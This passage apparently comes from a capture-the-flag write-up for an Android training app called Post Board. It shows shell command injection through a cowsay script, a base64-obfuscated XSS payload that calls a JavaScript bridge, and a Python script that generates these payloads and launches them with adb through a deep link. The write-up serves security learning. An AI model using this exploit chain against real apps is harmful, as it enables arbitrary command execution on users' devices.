Of course this won’t work. We need to escape our command in the bash script. A basic knowledge of Command Injection can help us here.

We can copy this line: `printf "< %s >\n"` and try escape inside our bash.

![img8.png](/assets/images/ctf-mhl/post-board-lab/img8.png)

Any of those bash scape can work:

```
printf "< %s >\n" "`whoami`"

printf "< %s >\n" "$(hostname)"
```

![img9.png](/assets/images/ctf-mhl/post-board-lab/img9.png)

```bash
<img/src='1'/onerror=eval(atob("d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgiJChob3N0bmFtZSkiKQ=="))>
```

![img10.png](/assets/images/ctf-mhl/post-board-lab/img10.png)

# Exploiting

 Let’s write a simple Python script to create those payload for us.

```python
import os
import base64

def main():
    user_input = str(input("Enter your command: "))
    
    cmd = f"$({user_input})"
    cow_methed = f"window.WebAppInterface.postCowsayMessage(\"{cmd}\")"
    encoded_cow_methed = base64.b64encode(cow_methed.encode()).decode() 
    payload = f"<img/src='1'/onerror=eval(atob(\"{encoded_cow_methed}\"))>"
    
    print(f"[+] Generated Payload:\n{payload}\n")

    command = f'adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/{base64.b64encode(payload.encode()).decode()}"'
    print(f"[+] Command to execute:\n{command}\n")
    os.system(command)

if __name__ == "__main__":
    main()
```
